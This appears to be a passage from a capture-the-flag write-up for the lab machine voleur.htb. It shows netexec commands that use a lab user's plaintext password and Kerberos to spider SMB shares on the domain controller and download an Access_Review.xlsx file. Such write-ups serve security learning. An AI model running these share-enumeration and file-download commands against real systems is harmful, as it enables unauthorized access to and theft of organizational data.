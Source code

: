 ![alt text](../assets/images/voleur6.png)

we have **READ** access on **IT** shares so lets check this first

```bash
faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -M spider_plus
```

and i found interesting file

```bash
➜  voleur cat /home/elliot/.nxc/modules/nxc_spider_plus/DC.voleur.htb.json
{
    "IT": {
        "First-Line Support/Access_Review.xlsx": {
            "atime_epoch": "2025-01-31 04:09:27",
            "ctime_epoch": "2025-01-29 04:39:51",
            "mtime_epoch": "2025-05-29 18:23:36",
            "size": "16.5 KB"

```

Lets grab it with netexec also

```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True
```

and here

```bash
➜  voleur ls -la /home/elliot/.nxc/modules/nxc_spider_plus/DC.voleur.htb/IT/First-Line\ Support/Access_Review.xlsx 
-rw-rw-r-- 1 elliot elliot 16896 Jul  5 18:06 '/home/elliot/.nxc/modules/nxc_spider_plus/DC.voleur.htb/IT/First-Line Support/Access_Review.xlsx'
```
